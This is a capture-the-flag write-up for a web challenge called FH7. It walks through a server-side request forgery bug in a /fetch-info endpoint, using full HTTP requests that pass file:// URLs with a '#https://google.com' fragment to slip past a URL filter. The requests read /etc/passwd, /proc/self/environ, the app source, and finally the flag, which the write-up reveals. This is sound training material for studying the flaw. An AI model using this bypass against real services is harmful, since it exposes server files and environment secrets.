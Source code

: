 # FH7

> Category: Web Exploitation🕸️

![img](desc.png)


## 🔍 Overview

Visiting the page will show us the information about Faisal Halim, a Professional Malaysian Footballer:

![img](page.png)

## ✨ Solution

Try to view the request made using **Burp Suite**.

![img](burp.png)

Looks interesting here. Check the <code>POST /fetch-info</code> and try to change the url:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///etc/passwd"}
```

![img](notworking.png)

But this will not work. So we need to append the **"#"** at the end to bypass this:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///etc/passwd#https://google.com"}
```

![img](working.png)

Then, can try to read <code>/proc/self/environ</code> to reveal some information:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///proc/self/environ#https://google.com"}
```

![img](python.png)

After knowing it is a **Python app**, check the source code to get the flag path. It is usually named as <code>app.py</code> in <code>/app</code> directory:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///app/app.py#https://google.com"}
```

![img](flagpath.png)

Then, we can retrieve the flag:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///75f6413dec355f32c8a7301bba0d1792/flag.txt#https://google.com"}
```

![img](flag.png)

<details><summary><b>🏳️Flag</b></summary>
<b>3108{9a2b1b3e5c36a56cd5f2ff8a0b5eab3e}</b></details>

## 📚 References:

- https://support.google.com/richmedia/answer/190941?hl=en#:~:text=In%20a%20URL%2C%20a%20hash,of%20the%20page%20or%20website

- https://en.wikipedia.org/wiki/File_URI_scheme